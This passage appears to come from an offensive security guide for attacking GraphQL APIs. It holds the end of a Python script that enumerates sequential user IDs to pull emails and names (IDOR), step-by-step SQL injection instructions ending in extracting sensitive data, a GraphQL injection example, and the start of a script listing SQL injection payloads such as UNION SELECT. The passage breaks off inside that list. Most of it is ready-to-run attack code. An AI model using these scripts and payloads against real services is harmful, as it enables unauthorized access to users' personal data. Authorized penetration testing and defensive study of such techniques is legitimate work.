                if response.status_code == 200:
                   data = response.json()
                   if "data" in data and not all(v is None for v in data["data"].values()):
                       print(f"[+] ID {test_id} accessible:")
                       print(json.dumps(data["data"], indent=2))
                       results[test_id] = data["data"]
           
           return results
       
       # Example usage
       query_template = """
       {
         user(id: "{{ID}}") {
           email
           profile {
             fullName
           }
         }
       }
       """
       
       # Test sequential IDs
       id_list = [str(i) for i in range(1, 10)]
       test_idor("https://target.com/graphql", query_template, id_list)
       ```
    
    2. **SQL injection via arguments**:
       - Step 1: Identify queries that might pass arguments to a database
       - Step 2: Test basic SQL injection payloads in string arguments
       - Step 3: Look for error messages or data changes
       - Step 4: Refine payloads based on the database type
       - Step 5: Extract sensitive data or perform other SQL injection attacks
       - Example SQL injection in GraphQL:
       ```graphql
       {
         user(id: "1' OR 1=1--") {
           id
           username
           email
         }
       }
       ```
       - Python script for SQL injection testing:
       ```python
       import requests
       
       def test_sql_injection(url, field_name):
           headers = {"Content-Type": "application/json"}
           payloads = [
               "1' OR '1'='1",
               "1' OR '1'='1'--",
               "1\" OR \"1\"=\"1",
               "1\" OR \"1\"=\"1\"--",
               "1 OR 1=1",
               "1' UNION SELECT 1,2,3--",
               "1' UNION SELECT NULL,NULL,NULL--",
           ]
           